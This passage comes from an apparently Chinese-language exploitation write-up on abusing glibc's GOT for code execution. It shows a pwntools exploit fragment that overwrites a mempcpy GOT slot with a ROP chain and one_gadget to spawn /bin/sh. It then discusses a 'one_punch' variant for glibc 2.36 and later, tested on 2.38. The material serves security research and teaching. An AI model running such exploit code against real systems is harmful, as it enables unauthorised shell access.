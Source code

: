 ```python

got = lbase + libc.dynamic_value_by_tag("DT_PLTGOT")
mempcpy_got = lbase + 0x219040
got_slot = (mempcpy_got - got) // 8

'''
0x10dbb2 posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x40], 0, rsp+0x70, [rsp+0xf0])
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
  [[rsp+0xf0]] == NULL || [rsp+0xf0] == NULL || [rsp+0xf0] is a valid envp
  [rsp+0x40] == NULL || (s32)[[rsp+0x40]+0x4] <= 0
'''

one_gadget = lbase + 0x10dbb2
prax = lbase + 0x0000000000045eb0  # pop rax; ret

rop_chain = flat(prax, one_gadget)
dest, payload = fx5(libc, slot=(mempcpy_got - got) // 8, rop_chain=rop_chain)

ss("write payload to {}, length {}".format(hex(dest), hex(len(payload))))
sd(p64(dest))
sd(p64(len(payload)))
sd(payload)

interact()
```



![](image-20231207163123614.png)



这样利用只需要发送0x40 bytes的payload，大概是极限了。



### 0x07. one_punch

这一切在glibc 2.35上都很美好，直到来到了glibc 2.36。从2.36开始GOT0就不可写了，但依然可以修改GOT表下面的每一项：

![](image-20231207165105689.png)

![](image-20231207165134213.png)



这里@swing提供了一个只利用`.got.plt`做ROP的思路，不过我用他的payload没有复现成功，我自己做了一些改编。



这里我们用2.38做实验：

```
$ ./ld-2.38.so ./libc-2.38.so
GNU C Library (Ubuntu GLIBC 2.38-1ubuntu6) stable release version 2.38.
Copyright (C) 2023 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 13.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
Minimum supported kernel: 3.2.0
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.

$ sha256sum libc-2.38.so
6ef35c68875f778d358c7bf53180565d63e9202a1ac28aba804ff4cf35d70698  libc-2.38.so
```

